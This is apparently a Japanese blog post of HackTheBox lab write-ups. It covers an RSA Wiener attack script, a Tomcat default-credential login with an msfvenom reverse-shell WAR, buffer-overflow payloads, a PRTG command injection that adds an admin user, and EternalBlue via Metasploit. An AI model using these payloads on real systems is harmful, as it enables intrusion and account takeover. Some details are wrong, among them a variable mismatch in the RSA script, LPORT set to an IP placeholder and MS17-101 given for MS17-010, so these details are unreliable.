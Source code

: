 ```yaml
---
title: "HTB: Beginner"
date: 2024-05-24T21:22:04+09:00
draft: false
---
```


HTB, しばらくやってなかったらアカウント忘れてしまった

新しくアカウントを作って starting point も終えたので，やっていきたい

## Weak RSA

```python
from Crypto.PublicKey import RSA

pubkey = RSA.importKey(open("key.pub").read())
e = pubkey.e
n = pubkey.n

print("e :", e)
print("n :", n)
```

これで e, n を計算する．
e が巨大なので以下のように攻撃する

```python
import owiener
from Crypto.Util.number import *

e = 68180928631284147212820507192605734632035524131139938618069575375591806315288775310503696874509130847529572462608728019290710149661300246138036579342079580434777344111245495187927881132138357958744974243365962204835089753987667395511682829391276714359582055290140617797814443530797154040685978229936907206605
n = 573177824579630911668469272712547865443556654086190104722795509756891670023259031275433509121481030331598569379383505928315495462888788593695945321417676298471525243254143375622365552296949413920679290535717172319562064308937342567483690486592868352763021360051776130919666984258847567032959931761686072492923

d = owiener.attack(e, n)

if d is None:
    print("Failed")
else:
    print("d={}".format(d))
    
with open('flag.enc', 'rb') as ct:
    sc = bytes_to_long(ct.read())

plain = pow(c, d, n)
print(long_to_bytes(plain).strip())
```

## Jerry

- nmap: http-proxy 8080
- ip:8080 にアクセスする
- tomcat が開いている
  - /manager/html が管理画面っぽい
  - デフォルトパスワードをブルートフォースすると tomcat:s3cret で通る
  - .war ファイルをアップロードできる
  - ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war``` でリバースシェルファイルを生成
  - ```/revshell/``` にアクセス
- nc で待ち構えるとシェルが開く
  - Users/Administrator/Desktop
  - ```type *```
  - user, root どちらも書いてある

## You know 0xDiablos

- checksec は全部無効
- ghidra でデコンパイルする

```C
void vuln(void)
{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

- PIE(次に実行する関数のアドレス) オフセットは 188
  - ```pattern_offset 0x41417741```
  - ```python3 -c "import sys; sys.stdout.buffer.write(b'A'*188+b'\xe2\x91\x04\x08')"  > exploit.txt```
  - ```r < exploti.txt```
  - EIP の次に引数があるので，flag 関数の中身に必要な引数を追加する
  - ```python3 -c "import sys; sys.stdout.buffer.write(b'A'*188+b'\xe2\x91\x04\x08'+b'DUMB\xef\xbe\xad\xde\x0d\xd0\xde\xc0')"  > exploit.txt```

## Netmon

- nmap
  - ftp が anonymous ログイン
  - PRTG netowork monitor が動いている
  - バックアップデータを取り出すと，ユーザ名とパスワードが手に入る
- 管理画面ログイン
  - さっきのパスワードを少しずつ変えてログインする
  - このバージョンに RCE の脆弱性がある
  - ```abc.txt | net user htb abc123! /add ; net localgroup administrators htb /add```
  - これをトリガーする
    - このトリガー方法を調べるので 500 年使った
  - ```psexec.py htb:'abc123!'@ip```

## BLUE

- nmap
  - -sCV で hostname が見える
  - Windows 7 が動いている
- ```smbclient``` で SMB シェアの詳細を見れる
- MS17-101 の脆弱性を使う
  - Wanna Cry
- metasploit でやっていく
  - ```search MS17-101```
  - ```use 0```
  - RHOSTS, LHOST を設定する
  - ```run```
  - 内部に入れるので，シェルを起動する ```shell```
  - flag を取る
